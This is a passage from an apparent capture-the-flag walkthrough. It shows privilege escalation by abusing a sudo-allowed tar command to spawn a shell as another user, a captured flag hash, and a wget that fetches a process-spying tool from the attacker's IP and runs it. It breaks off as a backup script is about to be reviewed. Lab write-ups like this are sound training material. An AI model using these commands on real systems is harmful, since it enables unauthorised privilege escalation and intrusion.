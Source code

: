 ``` sudo -l ```

![](./IMG/41.png)
- Using the payload : 
```
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
```

![](./IMG/42.png)
- First, I execute the payload directly, but it still only get www-data permission
```
tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
```


![](./IMG/43.png)
- execute the command with user onuma 
```
sudo -u onuma tar xf /dev/null -I '/bin/sh' -c "sh <&2 1>&2"'
```

![](./IMG/44.png)
- Check user 

![](./IMG/45.png)
- Get user flag: 
``` 
fb1137d3ff73216317de05a17b55dbb3 
```

![](./IMG/46.png)


## Post Exploitation

- Check host information
```
uname -r 
```

- Upload pspy32s and execute it 
```
wget http://10.10.17.145/9696/pspy32s
chmod +x pspy32s
./pspy32s
```
- There is an interesting process 
```
/bin/bash /usr/sbin/backuperer
```

![](./IMG/47.png)
- Check the bacuperer location

![](./IMG/48.png)
- Review the backuperer content, it's a bash shell code 

```
#!/bin/bash
